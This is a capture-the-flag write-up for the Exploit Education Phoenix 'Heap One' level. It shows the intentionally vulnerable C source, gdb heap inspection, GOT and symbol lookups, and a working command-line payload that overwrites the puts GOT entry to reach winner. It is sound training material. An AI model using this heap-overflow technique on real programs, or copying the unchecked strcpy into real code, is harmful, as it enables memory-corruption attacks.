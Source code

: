 ```yaml
---
title: "Heap One"
permalink: "exploit-education/phoenix/:title"
layout: post
---
```



```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

struct heapStructure {
  int priority;
  char *name;
};

int main(int argc, char **argv) {
  struct heapStructure *i1, *i2;

  i1 = malloc(sizeof(struct heapStructure));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct heapStructure));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}

void winner() {
  printf(
      "Congratulations, you've completed this level @ %ld seconds past the "
      "Epoch\n",
      time(NULL));
}
```

This code uses **strcpy** without size checking just like the previous level, but there is not function pointer here to overwrite.

Let's look at the memory layout, remember that **malloc** returns the allocation address in **eax** so we can set breakpoints after each call to get **i1** and **i2** addresses (also these two addresses are stored at **ebp-0xc** and **ebp-0x10**).

```
$ gdb -q /opt/phoenix/i486/heap-one
Reading symbols from /opt/phoenix/i486/heap-one...(no debugging symbols found)...done.

gef➤  b *0x08048883
Breakpoint 1 at 0x8048883

gef➤  r AAAA BBBB
Starting program: /opt/phoenix/i486/heap-one AAAA BBBB
Breakpoint 1, 0x08048883 in main ()

gef➤  x/xw $ebp-0xc
0xffffd6fc:	0xf7e69008

gef➤  x/xw $ebp-0x10
0xffffd6f8:	0xf7e69028

gef➤  x/12xw 0xf7e69008
0xf7e69008:	0x00000001	0xf7e69018	0x00000000	0x00000011
0xf7e69018:	0x41414141	0x00000000	0x00000000	0x00000011
0xf7e69028:	0x00000002	0xf7e69038	0x00000000	0x00000011

gef➤  x/12xw 0xf7e69028
0xf7e69028:	0x00000002	0xf7e69038	0x00000000	0x00000011
0xf7e69038:	0x42424242	0x00000000	0x00000000	0x000fffc1
0xf7e69048:	0x00000000	0x00000000	0x00000000	0x00000000
```

We can see that **i1** is at **0xf7e69008**, first value **priority** is **0x1** and second value is **name** address returned from **malloc(8)** which is **0xf7e69018** and we can see that **strcpy** is writing to that address.

So if we overflow **i1** to write to **name** address of **i2** we can overwrite any value in memory with the value of **argv[2]**, but what to overwrite ???

```
gef➤  disassemble main 
Dump of assembler code for function main:
   0x0804887e <+169>:	push   0x804ab70
=> 0x08048883 <+174>:	call   0x80485b0 <puts@plt>
   0x08048888 <+179>:	add    esp,0x10
```

You guessed it (I hope), we will overwrite the **GOT** entry of the **puts** function to point to **winner** function.

```
$ objdump -R /opt/phoenix/i486/heap-one | grep puts
0804c140 R_386_JUMP_SLOT   puts

$ objdump -t /opt/phoenix/i486/heap-one | grep winner
0804889a g     F .text	00000027 winner
```

**puts** is at **0x0804c140** and **winner** is at **0x0804889a**, and the needed offset = 0xf7e6902c - 0xf7e69018 = 20 bytes.

Note that in the assembly, **winner** function uses **printf** not **puts** so we can safely overwrite **puts** function.

# Solution:

```
$ /opt/phoenix/i486/heap-one $(python -c "print 'A'*20 + '\x40\xc1\x04\x08'") $(python -c "print '\x9a\x88\x04\x08'")
Congratulations, you've completed this level @ 1580310733 seconds past the Epoch
```